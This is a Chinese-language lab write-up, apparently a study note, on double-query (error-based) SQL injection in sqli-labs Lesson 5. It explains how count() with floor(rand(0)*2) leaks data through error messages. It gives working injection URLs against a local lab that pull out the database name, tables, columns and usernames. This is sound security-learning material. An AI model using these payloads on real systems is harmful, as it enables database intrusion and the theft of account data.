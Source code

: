 # Lab5 -- Double Injection - Single Quotes

+ 输入`?id=1`没有任何数据显示在网页上，只有一句`You are in...`，我要的数据啊喂
+ 这里是双注入的原理解释链接
  + https://blog.csdn.net/lixiangminghate/article/details/80466257
  + https://mochazz.github.io/2017/09/23/Double_%20SQL_Injection/#0x01-%E5%8F%8C%E6%9F%A5%E8%AF%A2这个链接更好一些
+ 双注入原理：count聚合函数（聚合说的这么高端，其实就是一个count的过程罢了）遇到分组函数会报错，显示部分数据库内容 -- 存在几率显示

- [x] 为什么会存在几率触发呢? -- 观察报错信息如下图，这是由于group_key在排序的时候出现了排序对象出现了重合（小声逼逼，为什么出现重合会报错呢？这可能就是sql数据库设计之初存在的漏洞把）

![1](.\images\1.png)

+ 基础解释：
  + random()函数生成大于0小于1的数
  + floor()向下取整
  + count()聚合函数 -- 返回当前表的所有记录数
  + concat()用来链接字符串

+ 实战

  + 输入?id=1‘会报错

  ```mysql
  You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1
  ```
  
+ 然并卵，这时候数据库搜索出的结果都不显示在网页上
  
  + 双注入 -- 把我们想得到的信息放到报错信息中

1. 得到自己当前数据库名

```mysql
http://localhost/sqli-labs-master/Less-5/?id=0' union select 1,count(*),concat_ws(":",(select database()),floor(rand(0)*2)) as a from information_schema.columns group by a --+
```

![2](C:\Users\Administrator\Desktop\Sqli_Analysis\images\2.png)

2. 得到当前数据库的数据表们 -- 这里只能通过limit一个一个查询

```mysql
http://localhost/sqli-labs-master/Less-5/
?id=0' union select 1,count(*),concat_ws(":",(select table_name from information_schema.tables where table_schema="security" LIMIT 3,1),floor(rand(0)*2)) as a from information_schema.columns group by a --+
LIMIT 从0，1到3，1得到emails，referers，uagents和users
```

![3](C:\Users\Administrator\Desktop\Sqli_Analysis\images\3.png)

3. 选择账户相关的数据表，得到其的字段名称-- 这里只能通过limit一个一个查询

```mysql
http://localhost/sqli-labs-master/Less-5/
?id=0' union select 1,count(*),concat_ws(":",(select column_name from information_schema.columns where table_schema="security" and table_name="users" LIMIT 0,1),floor(rand(0)*2)) as a from information_schema.columns group by a --+
得到id,username,password三个字段
```

![4](C:\Users\Administrator\Desktop\Sqli_Analysis\images\4.png)

4. 根据字段名称在数据表中查询具体数据 -- 这里只能通过limit一个一个查询

```mysql
http://localhost/sqli-labs-master/Less-5/
?id=0' union select 1,count(*),concat_ws(":",(select username from security.users LIMIT 0,1),floor(rand(0)*2)) as a from information_schema.columns group by a --+
```

![5](C:\Users\Administrator\Desktop\Sqli_Analysis\images\5.png)

+ 当然，以上的limit一个一个查询太慢了，可以考虑用python来帮我们做这件事情，参考了https://mochazz.github.io/2017/09/23/Double_%20SQL_Injection/#0x01-%E5%8F%8C%E6%9F%A5%E8%AF%A2这份链接，写出python脚本进行sql注入

+ 发现了一个彩蛋 -- 输入以下代码的时候报错同样可以找出部分信息

```
http://localhost/sqli-labs-master/Less-5/
?id=0' union select 1,count(*),count_ws(":",(select database()),floor(random(0)*2)) as a from information_schema.columns group by a --+
```

![6](C:\Users\Administrator\Desktop\Sqli_Analysis\images\6.png)

